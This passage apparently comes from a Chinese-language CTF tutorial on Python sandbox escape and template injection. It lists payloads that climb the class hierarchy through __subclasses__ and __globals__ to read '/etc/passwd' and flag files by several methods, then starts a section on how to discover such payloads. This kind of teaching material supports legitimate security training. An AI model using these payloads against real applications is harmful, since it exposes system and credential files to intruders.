 ```python
```

### 文件读取

由于Python2中的 File 类在 Python3 中被去掉了，所以目前也就 **FileLoader ( \_frozen\_importlib\_external.FileLoader)** 算真正意义上原生的文件读取

```python
[].__class__.__bases__[0].__subclasses__()[NUM]["get_data"](0,"/etc/passwd")
```

其他文件读取的方法无非还是在命令执行的基础上去导入文件操作的包 ( 为了方便，我们使用 X 代表基类 )

```python
- codecs模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('codecs').open('/app/flag').read()") 

- pathlib模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('pathlib').Path('/app/flag').read_text()") 

- io模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('io').open('/app/flag').read()")

- open函数
x[NUM].__init__.__globals__['__builtins__'].eval("open('/app/flag').read()")
```

### 探索

你可以看到，现成的很多 payload 都是前人总结出来的，但凡是都有个开始，比如——如何从一个基类开始，去寻找一个可用的 payload 呢？

这里我们在拿到基类后，选取一个拥有初始化和全局的对象：

![image-20231130171847472](../.gitbook/assets/image-20231130171847472.png)
